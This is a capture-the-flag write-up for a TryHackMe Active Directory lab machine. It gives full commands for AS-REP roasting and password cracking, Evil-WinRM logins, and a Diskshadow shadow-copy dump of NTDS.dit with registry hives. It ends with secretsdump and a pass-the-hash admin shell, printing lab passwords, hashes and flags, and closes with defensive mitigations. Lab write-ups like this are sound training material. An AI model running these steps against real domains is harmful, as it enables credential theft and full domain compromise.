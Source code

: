 # TryHackMe — FusionCorp (Hard)

**IP:** 10.201.6.61  
**OS:** Windows (AD DC)  
**Author:** inksec (Tate)  
**Tags:** AD, AS-REP roast, LDAP info leak, Backup Operators (SeBackupPrivilege), Diskshadow, NTDS dump

## TL;DR (attack chain)
Web /backup → employees.ods (user list) → Kerbrute find `lparker` → AS-REP roast → crack to `!!abbylvzsvs2k6!` → LDAP desc leak gives `jmurphy` creds → Evil-WinRM → `jmurphy` is **Backup Operators** → Diskshadow VSS → copy `NTDS.dit`/`SYSTEM`/`SAM` → secretsdump → **Administrator** NTLM → wmiexec → root.

---

## Enumeration

### Nmap
Open AD/DC stack: 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268/3269, 3389, 9389 (WS2019 DC). HTTP banner: **eBusiness Bootstrap Template**.

### Web (IIS)
`/backup/` exposed; downloaded `employees.ods` → usernames list.

```text
jmickel aarnold llinda jpowel dvroslav tjefferson nmaurin mladovic lparker kgarland dpertersen
```

### Username discovery
```bash
kerbrute userenum users.txt --dc 10.201.6.61 -d fusion.corp
# [+] VALID USERNAME: lparker@fusion.corp
```

### AS-REP Roast
```bash
impacket-GetNPUsers fusion.corp/ -dc-ip 10.201.6.61 -usersfile users.txt -outputfile hashes.txt
# got AS-REP for lparker
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
# lparker : !!abbylvzsvs2k6!
```

### LDAP loot (desc leak)
```bash
netexec ldap 10.201.6.61 -u 'lparker' -p '!!abbylvzsvs2k6!' --users
# description reveals: jmurphy : u8WC3!kLsgw=#bRY
```

---

## Footholds (Evil-WinRM)
```bash
evil-winrm -i 10.201.6.61 -u lparker -p '!!abbylvzsvs2k6!'
# flag1: THM{c105b6fb249741b89432fada8218f4ef}

evil-winrm -i 10.201.6.61 -u jmurphy -p 'u8WC3!kLsgw=#bRY'
# flag2: THM{b4aee2db2901514e28db4242e047612e}
```

`whoami /all` shows **BUILTIN\Backup Operators** with **SeBackupPrivilege**.

---

## Privilege Escalation (SeBackupPrivilege → NTDS)

### Create VSS and copy sensitive files
`viper.dsh`:
```text
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```

```powershell
# On the DC (as jmurphy)
diskshadow /s viper.dsh
robocopy /b x:\windows\ntds . ntds.dit
reg save HKLM\SYSTEM .\system
reg save HKLM\SAM .\sam
```

### Extract hashes offline
```bash
impacket-secretsdump -ntds ntds.dit -system system -sam sam local
# Administrator NTLM: 9653b02d945329c7270525c4c2a69c67
```

### Admin shell
`psexec` was flaky → used `wmiexec`:
```bash
impacket-wmiexec fusion.corp/Administrator@10.201.6.61 -hashes :9653b02d945329c7270525c4c2a69c67
# C:\Users\Administrator\Desktop\flag.txt
# THM{f72988e57bfc1deeebf2115e10464d15}
```

---

## Notes & Gotchas
- **/backup** directory indexing is the pivot; don’t miss it.
- If `psexec` fails, try `wmiexec` or `smbexec`.
- Backing up NTDS on Server 2019: VSS via **Diskshadow** + `/b` copy works cleanly.

## Mitigations (blue team)
- Disable directory listing; secure backups.  
- Remove **“Do not require Kerberos preauth”** from users.  
- Never store passwords in **AD description**.  
- Restrict/monitor **Backup Operators**; require JIT and separate backup path.  
- Enable LAPS/strong password policy; audit 4768/4769/4624.

## Tools
nmap · gobuster · kerbrute · Impacket (GetNPUsers, secretsdump, wmiexec) · Evil-WinRM · netexec (CrackMapExec) · Diskshadow · john

**Proofs:** `HTB/proofs/fusioncorp.png`
